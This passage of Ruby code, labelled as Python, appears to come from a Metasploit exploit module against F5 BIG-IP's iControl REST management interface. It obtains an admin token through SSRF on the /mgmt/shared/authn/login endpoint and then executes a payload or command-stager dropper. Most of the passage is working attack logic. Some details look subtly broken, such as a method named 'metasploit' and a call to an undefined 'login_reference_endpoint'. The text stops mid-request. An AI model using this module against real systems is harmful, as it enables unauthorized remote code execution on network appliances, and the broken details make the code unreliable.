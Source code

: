 ```python
        'DefaultOptions' => {
          'SSL' => true
        },
        'Notes' => {
          'Stability' => [CRASH_SAFE],
          'Reliability' => [REPEATABLE_SESSION], # Only one concurrent session
          'SideEffects' => [
            IOC_IN_LOGS, # /var/log/restjavad.0.log (rotated)
            ACCOUNT_LOCKOUTS, # Unlikely with bigipAuthCookie
            ARTIFACTS_ON_DISK # CmdStager
          ]
        }
      )
    )

    register_options([
      Opt::RPORT(443),
      OptString.new('TARGETURI', [true, 'Base path', '/']),
      OptString.new('USERNAME', [true, 'Valid admin username', 'admin']),
      OptString.new('ENDPOINT', [false, 'Custom token generation endpoint'])
    ])

    register_advanced_options([
      OptFloat.new('CmdExecTimeout', [true, 'Command execution timeout', 3.5])
    ])
  end

  def username
    datastore['USERNAME']
  end

  def user_reference_endpoint
    normalize_uri(target_uri.path, '/mgmt/shared/authz/users', username)
  end

  def check
    generate_token_ssrf ? CheckCode::Vulnerable : CheckCode::Safe
  end

  def metasploit
    return unless (@token ||= generate_token_ssrf)

    print_status("Executing #{target.name} for #{datastore['PAYLOAD']}")

    case target['Type']
    when :unix_cmd
      execute_command(payload.encoded)
    when :linux_dropper
      execute_cmdstager
    end
  end

  def generate_token_ssrf
    print_status('Generating token via SSRF...')
    vprint_status("Username: #{username}")
    vprint_status("Endpoint: #{login_reference_endpoint}")

    res = send_request_cgi(
      'method' => 'POST',
      'uri' => normalize_uri(target_uri.path, '/mgmt/shared/authn/login'),
      'ctype' => 'application/json',
      'data' => {
        'username' => username,
```